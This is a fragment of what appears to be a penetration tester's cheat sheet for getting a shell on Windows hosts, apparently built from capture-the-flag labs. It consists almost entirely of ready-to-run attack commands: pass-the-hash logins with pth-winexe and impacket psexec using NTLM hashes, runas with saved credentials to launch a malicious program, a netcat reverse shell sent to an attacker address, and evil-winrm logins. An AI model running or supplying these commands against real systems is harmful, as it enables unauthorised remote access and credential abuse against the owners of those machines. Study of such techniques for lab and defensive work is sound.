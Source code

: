 	pth-winexe -U 'admin%LM:9658d1d1dcd9250115e2205d9f48400d' //10.10.10.1 cmd.exe
	pth-winexe -U 'admin%LM:9658d1d1dcd9250115e2205d9f48400d' --system //10.10.10.1 cmd.exe

## From the target machine with runas and stored credentials

	runas /savecred /user:admin C:\Path\To\Evil\Program.exe

## Netcat

	.\nc.exe 10.10.14.6 2222 -e cmd.exe

## From a vulnerable GUI Application

If a user can run an app as admin
![image.png](../_resources/026b69840f2fda106fd76ab68dc26c50.png)

## IMPACKET - Psexec.py

	./psexec.py EGOTISTICAL-BANK.LOCAL/administrator@10.10.10.175 -hashes d9485863c1e9e05851aa40cbb4ab9dff:d9485863c1e9e05851aa40cbb4ab9dff

## Evil-WinRM

	evil-winrm -u username -p 'password' -i 10.10.10.134

